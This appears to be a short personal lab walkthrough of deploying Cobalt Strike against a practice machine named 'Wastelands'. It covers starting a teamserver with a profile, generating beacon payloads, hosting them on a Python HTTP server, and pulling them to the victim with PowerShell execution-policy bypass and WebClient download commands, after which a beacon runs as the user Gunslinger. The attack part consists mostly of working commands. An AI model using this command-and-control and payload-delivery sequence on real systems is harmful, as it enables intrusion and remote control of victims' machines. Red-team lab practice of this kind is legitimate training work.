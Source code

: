 
Start Teams server
```bash
[root💀/opt/cobaltstrike] [192.168.146.129] [2023-09-25 12:07:22] 
 └─╼ # ./teamserver 192.168.146.129 'passphrase' custom-cobalt/Profiles/custom.profile
```
![[Pasted image 20230921163600.png]]
Startup Cobalt strike 
![[Pasted image 20230921163753.png]]
Login to cobalt strike
```powershell
Alias: Whatever you want
IP: 127.0.0.1 
username: whatever you want
Password: passphrase ( whatever password was used to setup server )
```
once on go to the Headphone Icon (Listeners) and add a listener
![[Pasted image 20230921164112.png]]
Once a listener is created navigate to Payloads > Generate All Payloads and select a folder to place beacons in.
![[Pasted image 20230921164252.png]]
In this instance I placed in /cobaltpayloads
![[Pasted image 20230921164421.png]]
Setup Python server to transfer chosen beacon
```powershell
[root💀~/cobaltpayloads] [192.168.1.163] [2023-09-21 15:53:37] 
 └─╼ # python3 -m http.server 8080
```
On victim machine - in this case Wastelands pull file over and renamed to exploit.exe
```powershell
powershell -ep bypass
PS C:\Users\gunslinger> powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://192.168.1.163:8080/Beacon_http_80_x64.exe', 'exploit.exe')

powershell -ep bypass
PS C:\Users\gunslinger> powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://192.168.1.163:8080/SharpView.exe', 'sharpview.exe')
```
Ran the beacon
![[Pasted image 20230921164728.png]]
On as Gunslinger
![[Pasted image 20230921164801.png]]
